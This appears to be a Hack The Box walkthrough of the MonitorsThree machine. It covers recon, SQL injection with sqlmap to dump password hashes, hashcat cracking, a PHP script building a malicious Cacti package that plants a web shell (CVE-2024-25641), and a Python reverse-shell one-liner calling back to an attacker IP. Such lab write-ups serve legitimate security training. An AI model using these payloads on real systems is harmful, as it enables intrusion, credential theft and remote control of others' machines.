 ```yaml
---
title: CTF Walkthrough for HTB Machine MonitorsThree
date: 2024-12-21 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [HTB, Writeup, CVE, SQLi]   
image:
  path: /assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/box-monitorsthree.webp
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about MonitorsThree a Hack The Box machine. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
### Machine Description
Name: Blurry<br>
Difficulty: Medium<br>
Operating System: Linux<br>
Machine link: [MonitorsThree HTB](https://app.hackthebox.com/machines/MonitorsThree)<br>
### Tools used
1) Nmap<br>
2) ffuf<br>
3) SQLMap<br>
4) Chisel

## Reconnaissance
As with every penetration test, we start by enumerating open ports on our target using Nmap.
`sudo nmap -Pn -n 10.10.11.30 -sS -oN ports-dis.nmap`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/ports-dis.png){: .center}

Using the results of the port scan we then perform a target service scan on open ports.
`sudo nmap -Pn -n 10.10.11.30 -p22,80,8084 -sV -sC -oN services-dis.nmap`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/services-dis.png){: .center}

The service scan shows that the target runs SSH, Nginx, and Websnp services. We also see the domain of the target so we can add it to our `/etc/hosts` file.
`echo '10.10.11.30  monitorsthree.htb' | sudo tee -a /etc/hosts`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/hosts-config.png){: .center}

Let's browse the web application running on port 80. We can see that this resembles a normal company's website. This company appears to provide network services to its customers.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/first-browse.png){: .center}

While browsing the application manually to gain a more depth of the target we can fuzz Vhosts on our target.
`ffuf -u http://10.10.11.30 -H 'Host: FUZZ.monitorsthree.htb' -ic -w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 13560`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/vhosts-fuzzing.png){: .center}


We discovered a new subdomain so let's add it to our `/etc/hosts` file.
`echo '10.10.11.30  cacti.monitorsthree.htb' | sudo tee -a /etc/hosts`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/hosts-config-2.png){: .center}

When visit to the cacti.monitorsthree.htb Vhost, we are greeted with a login page. This login page reveals the version number of a certain Cacti. A quick Google search shows that Cacti is an open-source, web-based network monitoring, performance, fault, and configuration management framework designed as a front-end application for the open-source, industry-standard data logging tool RRDtool. 
Now, with the version number we can make another Google search that reveals that the version of Cacti run by the target is indeed vulnerable to an authenticated RCE. Unfortunately, we have no valid credentials. 
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/exploit-discovery.png){: .center}

After browsing for a while, I realised that the http://monitorsthree.htb/forgot_password.php had different responses for valid and invalid usernames. This means the username is possibly checked in the database before the password request is sent and not just sent randomly.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/user-enum-proof-1.png){: .center}
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/user-enum-proof-2.png){: .center}

With this new information, we can test this endpoint for SQL injection vulnerability.
```bash
sqlmap -u 'http://monitorsthree.htb/forgot_password.php#' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,applicat
ion/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://monitorsthree.htb/forgot_password.php' -H 'Content-Type: application/x
-www-form-urlencoded' -H 'Origin: http://monitorsthree.htb' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=8uk7d3mkbcva1bebn824l2uil7' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'username=admin%29' --batch
```
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/injection-1.png){: .center}

We got a valid hit and the application is indeed vulnerable to SQL injection. we can now attempt to enumerate the database and dump users' passwords.
- Enumerating the current database.
```bash
sqlmap -u 'http://monitorsthree.htb/forgot_password.php#' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Content-Type: application/x-www-form-urlencoded'
 -H 'Cookie: PHPSESSID=8uk7d3mkbcva1bebn824l2uil7' --data-raw 'username=admin%29' --batch --current-db  
```
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/db-enumeration-1.png){: .center}

- Enumerating tables in the monitorsthree_db database we discovered
```bash
sqlmap -u 'http://monitorsthree.htb/forgot_password.php#' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Content-Type: application/x-www-form-urlencoded'
 -H 'Cookie: PHPSESSID=8uk7d3mkbcva1bebn824l2uil7' --data-raw 'username=admin%29' --batch --tables -D monitorsthree_db
```
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/db-enumeration-2.png){: .center}

- Enumerating the password column from the users table
```bash
sqlmap -u 'http://monitorsthree.htb/forgot_password.php#' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: PHPSESSID=8uk7d3mkbcva1bebn824l2uil7' --data-raw 'username=admin%29' --batch --tables -D monitorsthree_db -T users -C password --dump
```
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/db-enumeration-3.png){: .center}
*NB: We didn't dump the username table because we already obtained a valid user above thanks to the design of the web application.*

We have retrieved 2 password hashes out of four. From their length, they appear to be MD5. Let's crack them using Hashcat mode 0 and try both of them with the username admin.
`hashcat -m 0 -a 0 31a1xxxxxxxxxxxxxxxxxxxx430610e8 /usr/share/wordlists/rockyou.txt`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/passsword-crack.png){: .center}

We successfully cracked the second password so let's test for credentials reuse across different platforms by attempting to log into the cacti Vhost.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/cacti-login.png){: .center}

We can see that the credentials we have are reused on both Vhost. Remember we discover that the version of cacti run by our target is vulnerable to CVE-2024-25641. 
To exploit the vulnerability, we can use the PHP script to generate a malicious package to import into Cacti.
```php
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/nicefile.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = '<?php system($_GET["cmd"]); ?>';
$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("nicefile.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat nicefile.xml | gzip -9 > nicefile.xml.gz; rm nicefile.xml");
?>
```
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/exploit-compilation.png){: .center}

Now, we can log into Cacti with the admin credentials discovered above and go to **Import/Export** -> **Import Packages** to upload and import the `nicefile.xml.gz` file previously generated.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/exploitation.png){: .center}

The PHP file will be written into the `resource` directory and will be accessible using `/resource/nicefile.php` path. Let's test the payload by executing a basic command.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/shell-1.png){: .center}

Now that we can execute code on our target. We will leverage this to obtain a tty reverse shell by executing the following Python code on the target. Before executing this code we should start our NetCat listener on the appropriate port.
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/shell-sent.png){: .center}
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/shell-gain.png){: .center}

After gaining a shell we can enumerate local users on the system by listing the content of the `/home` directory.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/home-user.png){: .center}

Now that we gain a shell, we can start the enumeration. Remember that we have two web applications running on this server and we could read the database of the first web application using the SQLi vulnerability. Now, let's try to enumerate the database of the second web application i.e. cacti. We can find the configuration file in the `/html/cacti/include/config.php` file.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/db-config.png){: .center}

We can connect to this database and enumerate all interesting columns.
`SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name LIKE '%pass%';`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/cacti-db-login.png){: .center}
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/cacti-db-enum-1.png){: .center}

We can see an interesting table i.e. `user_auth`. We can enumerate the password hashes stored in this table to see if any name matches with a local user's name.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/cacti-db-enum-2.png){: .center}

We see a password hash for a user Marcus who appears to be a local user on the system. Let's crack this hash and attempt to log in as Marcus on the system.
`hashcat -m 3200 -a 0 '$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK' /usr/share/wordlists/rockyou.txt`
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/passsword-crack-2.png){: .center}

We successfully cracked the hash and we can use this to log in as Marcus. We can use this access to read the flag and further our enumeration.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/user-auth.png){: .center}

To obtain a more stable shell we can transfer Marcus's SSH private key to our attack host and use it to log in as Marcus.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/key-trans-1.png){: .center}
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/key-trans-2.png){: .center}
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/key-trans-3.png){: .center}
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/ssh-auth.png){: .center}

We can start our enumeration by enumerating ports listening locally on the target.
![](/assets/img/posts/walthrough/hackthebox/2024-12-21-monitorsthree/internal-ports.png){: .center}

